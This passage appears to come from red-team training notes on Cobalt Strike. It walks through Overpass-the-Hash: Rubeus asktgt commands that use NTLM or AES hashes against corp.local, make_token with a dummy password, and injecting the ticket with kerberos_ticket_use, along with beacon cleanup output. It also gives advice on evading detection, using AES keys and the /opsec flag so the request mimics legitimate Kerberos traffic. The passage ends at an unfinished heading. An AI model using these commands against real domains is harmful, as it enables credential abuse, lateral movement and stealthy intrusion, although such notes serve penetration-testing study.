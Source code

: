 Once finished remember to to use `rev2self` and `kill` the spawned process.

```
beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 8 bytes

beacon> kill 4563
[*] Tasked beacon to kill 4563
[+] host called home, sent: 12 bytes
```

# OverPass The Hash

OverPass The Hash also known as Pass The Key allows authentication with Kerberos rather than with NTLM.

We can use NTLM hash or AES Keys to request a Kerberos TGT Ticket.

To execute that technique we will use `Rubeus`.

```
beacon> execute-assembly C:\Tools\Rubeus.exe asktgt /user:user /domain:corp.local /rc4:4ffd3eabdce2e158d923ddec72de9790 /nowrap
```

> **OPSEC Alert**: Use AES keys rather than NTLM. Rubeus has an `/opsec` argument which tells it to send the request without pre-auth, to emulate a legit kerberos traffic.

```
beacon> execute-assembly C:\Tools\Rubeus.exe asktgt /user:user /domain:corp.local /aes256:a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec10 /nowrap /opsec
```

Once a ticket is created we can check it with `klist`.

```
beacon> run klist
```

Finally we can use `make_token` with a dummy password to spawn a session.

```
beacon> make_token CORP\user NOTREALPASSWORD
```

To pass the TGT into this logon session, we can use Beacon's `kerberos_ticket_use` command. This require that the ticket be on disk of our attacking workstation.

```powershell
[System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\UserTGT.kirbi", [System.Convert]::FromBase64String("[...ticket...]"))
```

```
beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\jkingTGT.kirbi 
```

## Elevated context
